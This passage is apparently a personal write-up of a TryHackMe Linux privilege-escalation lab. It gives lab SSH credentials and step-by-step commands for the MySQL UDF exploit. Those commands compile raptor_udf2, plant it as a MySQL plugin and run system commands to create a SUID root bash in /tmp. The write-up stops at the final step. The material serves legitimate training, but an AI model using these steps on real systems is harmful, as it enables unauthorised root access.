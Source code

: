 Task 1: Deploy the Vulnerable Debian VM 
```
This room is aimed at walking you through a variety of Linux Privilege Escalation techniques. To do this, you must first deploy an intentionally vulnerable Debian VM. This VM was created by Sagi Shahar as part of his local privilege escalation workshop but has been updated by Tib3rius as part of his Linux Privilege Escalation for OSCP and Beyond! course on Udemy. Full explanations of the various techniques used in this room are available there, along with demos and tips for finding privilege escalations in Linux.

Make sure you are connected to the TryHackMe VPN or using the in-browser Kali instance before trying to access the Debian VM!

SSH should be available on port 22. You can login to the "user" account using the following command:

ssh user@10.10.106.19

If you see the following message: "Are you sure you want to continue connecting (yes/no)?" type yes and press Enter.

The password for the "user" account is "password321".

The next tasks will walk you through different privilege escalation techniques. After each technique, you should have a root shell. Remember to exit out of the shell and/or re-establish a session as the "user" account before starting the next task!
```
## run id command
```console
$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
```

# Task 2 Service Exploits
The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use a [popular exploit](https://www.exploit-db.com/exploits/1518) that takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service


To check if mysql is runing as roo run: ```ps -u root | grep mysql```. The guide for this task is clear so I will not copy past stuff here. just gona write what I need to remember from this task. It might be helpful for me in the future:
1. download the exploit from the link above
2. complie the exploit by
```console
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
3. now run as mysql as root ```mysql -u rooot```
4. Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our exploit:
```mysql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```
5. Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission, then exit mysql
```mysql
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
exit
```
6. run the /tmp/rootbash executable with -p to gain a shell running with root privileges: 